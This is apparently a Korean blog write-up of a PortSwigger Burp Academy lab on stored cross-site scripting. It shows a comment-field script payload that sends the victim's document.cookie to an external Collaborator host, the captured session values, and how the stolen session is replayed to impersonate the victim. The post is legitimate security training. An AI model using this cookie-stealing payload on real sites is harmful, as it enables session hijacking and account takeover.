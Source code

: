 ```yaml
---
layout: post
title: "Burp Academy-XSS 취약점: Exploiting cross-site scripting to steal cookies"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XSS취약점]
toc: true
last_modified_at: 2023-07-24 10:48:00 +0900
---
```


# 개요
- Stored 타입의 XSS 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies
- 난이도: PRACTITIONER (보통)

# 문제
- 커멘트 저장하는 부분에 Stored XSS취약점이 존재한다. 
- victim의 세션 쿠키를 얻어내서 victim 계정으로 서버에 접근하면 문제가 풀린다. 
- 문제를 풀려면 정식 Collaborator서버를 사용해야 한다. 

```
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the cookie.
```


# 풀이 
- 문제에는 exploit서버가 주어지지 않는다. 
- 따라서 victim의 정보를 얻어내기 burp collaborator서버를 이용해야할 것 같다. 


Burp Suite에서 Burp Collaborator 페이로드를 하나 생성한다. 

그리고 해당 페이로드를 적용한 다음 exploit 코드를 웹 페이지의 커멘트에 저장한다. 작성자 이름과 메일 주소는 대충 적는다. 


```js
<script>
    fetch("https://b7jecv28f5s24fbxseef7kpoefk684wt.oastify.com?cookie="+encodeURIComponent(document.cookie))
</script>
```

커멘트를 저장한 후 블로그 글 상세보기 화면으로 돌아온다. 그리고 Burp Suite에서 collaborator서버 탭을 보면 다음 처럼 핑백이 나타난 것을 확인할 수 있다. victim 유저의 쿠키 값을 확인할 수 있다. URL 디코딩한 값은 다음과 같다. 

```
secret=Y8vNwX8F26uo4ZIMu7pv4MfHzuIMwr50; session=aD7nFaiUl2LcLrx2wK3NullmzDxF3LxR
```

![collaborator서버결과](/images/burp-academy-xss-5-1.png)

이제 victim으로 로그인하면 문제가 풀릴 것이다. 문제 서버의 홈으로 이동하는 요청을 Burp Proxy로 캡쳐하고 session의 값을 위에서 얻은 victim의 세션값으로 변경하고 요청을 보낸다. 그러면 문제 풀이에 성공했다는 메세지가 출력된다. 

![풀이성공](/images/burp-academy-xss-5-success.png)